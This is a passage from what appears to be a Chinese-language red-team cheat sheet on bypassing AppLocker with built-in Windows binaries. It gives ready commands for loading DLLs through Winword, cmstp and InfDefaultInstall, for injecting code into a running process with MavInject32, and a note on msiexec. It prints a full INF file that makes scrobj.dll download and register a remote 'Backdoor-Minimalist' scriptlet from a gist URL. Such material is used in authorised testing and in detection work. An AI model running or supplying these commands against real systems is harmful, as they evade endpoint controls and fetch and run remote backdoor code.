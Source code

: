Links：

- https://evi1cg.me/archives/AppLocker_Bypass_Techniques.html
- https://pentestlab.blog/2017/05/23/applocker-bypass-rundll32/
- https://github.com/redcanaryco/atomic-red-team/blob/master/Windows/Execution/Rundll32.md

#### Winword

利用Office word 的**/l**参数来加载dll文件

```powershell
winword.exe /l dllfile.dll
```

#### Cmstp

通过安装一个VPN配置从Webdav加载DLL，可以参考以下链接

```powershell
cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
```

Links：

- https://msitpros.com/?p=3960
- https://www.anquanke.com/post/id/86685

#### InfDefaultInstall

和cmstp一样用于加载dll

```powershell
InfDefaultInstall.exe shady.inf
```

```inf
[Version] 
Signature=$CHICAGO$

[DefaultInstall]
UnregisterDlls = Squiblydoo

[Squiblydoo]
11,,scrobj.dll,2,60,https://gist.githubusercontent.com/subTee/24c7d8e1ff0f5602092f58cbb3f7d302/raw/ef22366bfb62a2ddea8c5e321d3ce2f4c95d2a66/Backdoor-Minimalist.sct
```

#### MavInject32

MavInject32.exe是微软应用程序虚拟化的一部分，可以直接完成向某一进程注入代码

```powershell
"C:\Program Files\Common Files\microsoft shared\ClickToRun\MavInject32.exe" <PID> /INJECTRUNNING <PATH DLL>
```

#### MSIExec

msiexec是一个可用于从命令行安装或配置产品的Microsoft程序。 如果环境配置不正确，使用.MSI文件可能允许攻击者执行特权升级或绕过AppLocker规则。
